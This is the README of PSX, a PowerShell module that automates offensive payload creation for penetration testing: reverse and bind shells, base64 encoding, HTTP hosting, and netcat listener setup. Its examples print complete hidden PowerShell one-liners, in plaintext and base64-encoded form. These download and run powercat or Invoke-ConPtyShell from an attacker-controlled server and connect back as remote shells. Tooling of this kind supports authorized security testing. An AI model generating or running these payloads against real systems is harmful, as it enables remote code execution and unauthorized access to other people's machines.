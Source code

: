 # PSX

## Description
This module helps specifically with PowerShell payloads

You no longer need to manually base64-encode your payloads, host, or tweak them\
With a few quick functions, you can now automate the whole shebang with only a few arguments

## Features
PSX currently provides the following features:
- ConPtyShell automation (including terminal [auto]size specification)
- PowerCat automation
- Base64-(encode|decode) payloads
- Automatic payload-to-clipboard
- Python Simple HTTP server
- Parameter completion
- [Optional] Automation for netcat listeners ***(X11 only)***

## Available Functions
- `cvsh` -> `Convert-Shell`
- `ib64` -> `Invoke-B64`
- `Invoke-Server`
- `Get-InterfaceAddress`
- `Sync-PSX`
- `Get-PSXAutomation` ***(X11 only)***
- `Set-PSXAutomation` ***(X11 only)***

## Heads up
- This module **WILL NOT**, and **MUST NOT** be, run as `root`; this is by design, and I will\
not be changing this at any point
- Only time elevated privileges are needed is on the first invocation of the module commands\
If you decide to enable automating netcat listeners, you will be prompted for your `sudo` password\
to issue the command `sudo apt-get install xdotool`
- The above command runs without verbosity, but you can see what gets installed by reading through\
`helpers/Init.ps1`
- Automation feature requires:
    - `xdotool` (Initial invocation of the module commands takes care of that)
    - X11 environment (Sorry, Waylanders...For now, maybe? :eyes:)
    - `Convert-Shell ... -Serve` (i.e the `-Serve`/`-s` switch)
- When using `conpty` as the selected payload type, caution must be exercised where\
terminal sizing is concerned. That is to say, the _current_ terminal size is chosen\
by default unless otherwise configured. For example, if you convert a `conpty` shell\
in a vertically-split terminal (49 rows, 95 columns), the netcat listener must be run\
in a terminal window of the same size. If you are on an X11 environment, and you have\
automation enabled, it is preferred to run `pwsh` in a non-split tab
- The module is designed to be implicitly imported from the `$USER`'s `$PSModulePath`, so\
please make sure you clone it as per the instructions. Otherwise, you will have to tweak\
the module manifest, and any required path modifications yourself

## Cloning
```sh
kali@kali:~$ git clone https://github.com/X0RW3LL/PSX.git /home/$USER/.local/share/powershell/Modules/PSX
```
## Getting help
```ps
PS kali@kali /home/kali> Get-Help Convert-Shell -Full
```
## Examples

### PowerCat (reverse powershell)
```ps
PS kali@kali /home/kali> cvsh -i wlan1 -t powercat -lp 443 -s

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA


[!] Starting HTTP server on wlan1 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 192.168.0.111 port 80 (http://192.168.0.111:80/) ...
```
### PowerCat (bind cmd)
```ps
PS kali@kali /home/kali> cvsh -t powercat -lp 4444 -s -i docker0 -e cmd -b

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:80/powercat.ps1');powercat -l -p 4444 -e cmd"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA3ADIALgAxADcALgAwAC4AMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAA=


[!] Starting HTTP server on docker0 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 172.17.0.1 port 80 (http://172.17.0.1:80/) ...
```
### ConPty (split terminal autosize)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 4455 -s -sp 8080 -i wg0

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:8080/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 4455 -Rows 49 -Cols 95"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwADgAMAAvAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsAC4AcABzADEAJwApADsASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwAIAAxADAALgA4AC4AMAAuADIAIAA0ADQANQA1ACAALQBSAG8AdwBzACAANAA5ACAALQBDAG8AbABzACAAOQA1AA==


[!] Starting HTTP server on wg0 port 8080
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 8080 (http://10.8.0.2:8080/) ...
```
### ConPty (fullscreen terminal explicit sizing)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 445 -s -i wg0 -rows 51 -cols 191          

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:80/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 445 -Rows 51 -Cols 191"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwAC8ASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwALgBwAHMAMQAnACkAOwBJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgADEAMAAuADgALgAwAC4AMgAgADQANAA1ACAALQBSAG8AdwBzACAANQAxACAALQBDAG8AbABzACAAMQA5ADEA


[!] Starting HTTP server on wg0 port 80
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 80 (http://10.8.0.2:80/) ...
```
### Base64-decode
```ps
PS kali@kali /home/kali> ib64 -d SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA

[+] Decoded payload:
--------------------
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell

```
